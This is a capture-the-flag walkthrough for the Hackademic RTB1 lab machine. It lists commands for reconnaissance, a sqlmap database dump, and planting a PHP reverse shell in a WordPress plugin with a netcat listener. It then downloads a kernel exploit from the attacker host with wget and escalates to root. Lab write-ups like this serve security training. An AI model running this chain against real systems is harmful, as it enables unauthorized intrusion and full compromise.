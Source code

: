 # Hackademic RTB1 - Full Walkthrough

Below is a comprehensive, step-by-step walkthrough with commands and annotated screenshots.

---

## 1. Discover the Target’s IP

sudo netdiscover -r <target_ip_range>



## 2. Scan for Open Ports and Services

nmap <target_ip> -sV -sC



## 3. Recon via Web Browser

Visit the target in your browser:  
`http://<target_ip>/Hackademic_RTB1/`


## 4. Dump the WordPress Database with SQL Injection

sqlmap -u "http://192.168.96.137/Hackademic_RTB1/?cat=1" -D wordpress --dump-all --batch



## 5. Crack and Note the Discovered Passwords

Passwords and usernames are extracted from the dumped database.


## 6. Log in to wp-admin with the Extracted Admin Credentials

- URL: `http://192.168.96.137/Hackademic_RTB1/wp-admin/`
- Username: **GeorgeMiller**
- Password: **q1w2e3**


## 7. Upload PHP Reverse Shell using Plugin File Editor

- Go to: Manage → Files
- Edit `hello.php` and paste PHP reverse shell code,you can get it from pentestmonkey (update IP & port)


## 8. Trigger Shell via Web

Browse to:  
`http://192.168.96.137/Hackademic_RTB1/wp-content/plugins/hello.php`

## 9. Open Netcat Listener to Get the Shell

nc -lvnp 1234


## 10. Identify Kernel Version & Plan Privilege Escalation

- Review kernel version.
- Find matching exploit: Exploit DB ID 15285 (CVE-2010-3904)


## 11. Transfer Exploit to Target using HTTP Server

On attacker (Kali) machine:

python3 -m http.server 80



## 12. Download Exploit Source on the Victim

On shell at the victim:

wget http://192.168.96.129:80/15285.c



## 13. Compile & Run Privilege Escalation Exploit

Compile with gcc and run:

gcc 15285.c -o exploit
./exploit

## 14. Capture the Flag

Switch to `/root`, list files, and read `key.txt`:

cd /root
ls
cat key.txt



You should see a congratulatory message along with the flag!

---

**End of Walkthrough**

---

Congratulations! Hackademic RTB1 rooted and key.txt captured.
